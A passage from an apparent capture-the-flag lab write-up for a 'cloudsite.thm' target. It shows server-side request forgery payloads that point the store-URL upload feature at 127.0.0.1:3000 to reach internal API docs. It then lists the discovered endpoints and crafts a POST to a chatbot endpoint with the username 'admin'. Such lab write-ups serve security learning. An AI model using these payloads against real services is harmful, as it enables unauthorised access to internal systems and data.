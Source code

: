 ```jsx
{"url":"http://storage.cloudsite.thm/api/docs"}
```

It don’t work, to upload the file you need to be in local network or have access so use like.

Use the default IP and port 

```jsx
{"url":"http://127.0.0.1:3000/api/docs"}
```

![Screenshot From 2025-05-30 14-42-49.png](img11.png)

This URL work opening the link download the file 

![Screenshot From 2025-05-30 14-50-39.png](img12.png)

```jsx
http://storage.cloudsite.thm/api/uploads/c340613a-4af4-4779-9521-9f544da96733
```

doc file shows the new directory a chatbot

```jsx
Endpoints Perfectly Completed

POST Requests:
/api/register - For registering user
/api/login - For loggin in the user
/api/upload - For uploading files
/api/store-url - For uploadion files via url
/api/fetch_messeges_from_chatbot - Currently, the chatbot is under development. Once development is complete, it will be used in the future.

GET Requests:
/api/uploads/filename - To view the uploaded files
/dashboard/inactive - Dashboard for inactive user
/dashboard/active - Dashboard for active user

Note: All requests to this endpoint are sent in JSON format.
```

Check out the **chatbot** using burp  change the POST and URL to /api/fetch_messeges_from_chatbot \   and  username 

![Screenshot From 2025-05-30 14-42-49.png](img13.png)

```jsx
POST /api/fetch_messeges_from_chatbot

{
  "username":"admin"
}
```

![Screenshot From 2025-05-31 01-37-31.png](img14.png)
